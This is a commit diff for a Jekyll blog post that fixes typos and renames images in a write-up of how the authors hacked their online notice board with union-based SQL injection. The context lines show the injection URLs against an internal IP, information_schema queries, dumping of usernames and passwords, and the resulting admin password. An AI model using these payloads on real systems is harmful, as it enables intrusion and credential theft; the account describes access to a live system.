

Before and after one commit to H4rryp0tt3r/h4rryp0tt3r.github.io, a Jekyll site: the page built from _posts/2014-07-10-how-we-hacked-our-online-notice-board-by-union-based-sqli.markdown, in a window 1280 px wide and 900 px high, scrolled down 1250 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Fix typos in 'how we hacked our notice board' post

```diff
--- a/_posts/2014-07-10-how-we-hacked-our-online-notice-board-by-union-based-sqli.markdown
+++ b/_posts/2014-07-10-how-we-hacked-our-online-notice-board-by-union-based-sqli.markdown
@@ -68,15 +68,15 @@ mysql> select username from users where sno=1 and 1=0 UNION select 1;
 +----------+
 </pre>
 
-Good, have a glance at why we started this :-)
+Good, now let's have a glance at why we started this.
 
-After doing brute-force attack on a webpage for getting flag in a [CTF](https://ctftime.org/ctf-wtf/){:target="_blank"}, we thought it would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.
+After doing brute-force attack on a web page for getting flag in a [CTF][ctf-about-link]{:target="_blank"}, we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.
 
-Hmm.. So what now, we noticed that in notice board there is a page `notice_view.php?id=1` which takes `id` as GET parameter.
+So we explored that website a bit and noticed that there is a page `notice_view.php?id=1` which takes `id` as GET parameter.
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/onb.png" description="notice_view.php page" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/onb.png" description="notice_view.php page" %}
 
-And as we are web developers we came to an estimation that the backend MySQL query might be
+As we are web developers we came to an estimation that the backend MySQL query might be
 
 {% highlight text %}
 select * from tablename where somecolumnname=$_GET["id"];
@@ -118,11 +118,11 @@ http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
 http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
 {% endhighlight %}
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/injected.png" description="First Injection point" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/injected.png" description="First Injection point" %}
 
-So the backend query which is fetching notices is selecting 3 columns, but the webpage is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on webpage.
+So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.
 
-Cool, so now we can inject a code that will print database name on webpage. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.
+Cool, so now we can inject a code that will print database name on web page. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.
 
 {% highlight text %}
 http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
@@ -130,7 +130,7 @@ http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3-
 
 And result of this query is..
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/database.png" description="Database name being displayed on page" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/database.png" description="Database name being displayed on page" %}
 
 We have the database name `Notices`, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database `Notices`. In order to do so we have used this payload
 
@@ -142,7 +142,7 @@ where TABLE_SCHEMA='Notices' --
 
 And the result is
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/tables.png" description="Table names being displayed on page" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/tables.png" description="Table names being displayed on page" %}
 
 Now we got all the tables in `Notices` Database and those are `notices, users`. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.
 
@@ -152,7 +152,7 @@ select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
 TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
 {% endhighlight %}
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/columns.png" description="Column names being displayed on page" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/columns.png" description="Column names being displayed on page" %}
 
 Now we just need to print password column from that table, used below payload.
 
@@ -163,7 +163,7 @@ UNION select 1,group_concat(username,"-",password),3 from users --
 
 Result is...
 
-{% include image.html url="/assets/5668e0defa143267af983836917cd517/passwords.png" description="Passwords being displayed on page" %}
+{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/passwords.png" description="Passwords being displayed on page" %}
 
 Ah! Finally, the admin password is on page and it is: `admin@onb`
 
```
Also changed, not shown: other parts of _posts/2014-07-10-how-we-hacked-our-online-notice-board-by-union-based-sqli.markdown (+5 -3 lines), assets/33ed6b071854135c17600a86a1d8876a/columns.png (renamed from assets/5668e0defa143267af983836917cd517/columns.png), assets/33ed6b071854135c17600a86a1d8876a/database.png (renamed from assets/5668e0defa143267af983836917cd517/database.png), assets/33ed6b071854135c17600a86a1d8876a/injected.png (renamed from assets/5668e0defa143267af983836917cd517/injected.png), assets/33ed6b071854135c17600a86a1d8876a/onb.png (renamed from assets/5668e0defa143267af983836917cd517/onb.png), assets/33ed6b071854135c17600a86a1d8876a/passwords.png (renamed from assets/5668e0defa143267af983836917cd517/passwords.png), assets/33ed6b071854135c17600a86a1d8876a/tables.png (renamed from assets/5668e0defa143267af983836917cd517/tables.png).
